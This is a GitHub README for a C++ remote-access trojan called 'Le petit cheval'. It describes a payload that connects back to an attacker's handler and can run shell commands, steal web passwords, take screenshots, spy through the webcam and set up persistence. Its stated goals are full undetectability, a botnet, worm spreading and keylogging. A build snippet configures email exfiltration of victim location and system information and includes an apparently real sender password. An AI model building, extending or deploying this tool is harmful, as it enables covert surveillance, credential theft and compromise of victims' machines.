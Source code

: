 # LPC
## Le petit cheval
Rootkit written in C++ based on socket connection.

2 Executables : The handler and the payload. 
When the payload is executed on the computer's victim, it will try to connect at a special IP:PORT toward the handler.
If it's succesfull you can run several scripts (upload file, download file, screenshot, run shell command, enum web password, put persistence, get external IP, geolocalyze the victim etc...) 

## Final goals :
- Fully undetectable
- Perform stable worked and undetectable scripts
- Manage several clients and create a stable botnet
- Executable must be light
- Worm function
- Keylogger mode

## Getting Started
These instructions will get you a copy of the project up and running on your local machine 

### Prerequisites
The Project was made with Visual Studio 2017 so it's recommended to use it, but you can debug and compile the projet with g++. 
First you need to install Visual Studio at least 2017 (Community or Pro)
Then install all the C++ basics tools in Visual Installer (g++, ...)
**Please put x64 and Debug mode to your Visual Studio project**
You will need library : 
- [opencv](https://opencv.org/releases/) to spy the webcam
And you will need to add the bin folder to the Path of Windows (so VC++ can access to it everywhere) 
In Project properties : 
- Add additional directory (put the path of the include open_cv folder)
- Add lib to Visual c++ Linker (add the path of the lib folder of open_cv)
- Add Input --> additional file (opencv_world410d.lib if you are using the debug mode)

### How to build the project 
Before building the project, to communicate with the handler you need to put the external IP address of the machine that will be running the handler [Handler](https://github.com/Mathugo/LPC_handler).
You also need to put all your email informations so that it can send a mail toward your email with informations (location, IP, sysinfo..)  
It's located in the main function() --> [LPC.cpp](https://github.com/Mathugo/LPC/blob/master/LPC/LPC.cpp)
```
int main()
{
	// ----------- MAIL SETTING --------------------
	const std::string smtp = "smtp.gmail.com:587"; Exemple
	const std::string sender_mail = "LPCEmailZ@gmail.com";
	const std::string sender_name = "LPC";
	const std::string password = "lpc12345";
	const std::string rcpt_name = "Hugo";
	const std::string mail_rcpt = "hugo.mathh@gmail.com";
	// ------------ IP ------------------
	const char addr[] = "HANDLER IP ADDRESS"; 
	const unsigned short port = HANDLER_PORT;
```

## Running the tests
No tests are plannified for the moment

## Contributors
* **Lucien Leseigle**

## Authors
* **Hugo Math**

## Dependency
* **curl.exe** To send mail
* **open_cv** To spy webcam
